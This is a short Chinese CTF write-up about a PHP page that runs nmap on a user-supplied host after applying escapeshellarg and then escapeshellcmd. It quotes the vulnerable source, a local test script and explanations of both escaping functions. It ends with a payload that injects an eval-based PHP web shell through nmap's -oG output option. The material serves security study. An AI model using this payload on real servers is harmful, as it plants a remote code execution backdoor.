 源码：

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```



本地测试：

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    echo $host."<br>";
    $host = escapeshellcmd($host);
    echo $host."<br>";
    highlight_file(__FILE__);
```



> Escapeshellarg()函数把字符串转码成可以在shell命令里使用的参数，将单引号进行转义，转义之后，再在左右加单引号。
>  Escapeshellcmd()函数对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义,即将&#;`|*?~<>^()[]{}$\, \x0A和\xFF以及不配对的单/双引号转义。

![img](https://img-blog.csdnimg.cn/0678913df3ee412ab99b3a7393df9027.png)



 payload:

```php
host=' <?php @eval($_POST["hack"]);?> -oG hack.php '
```


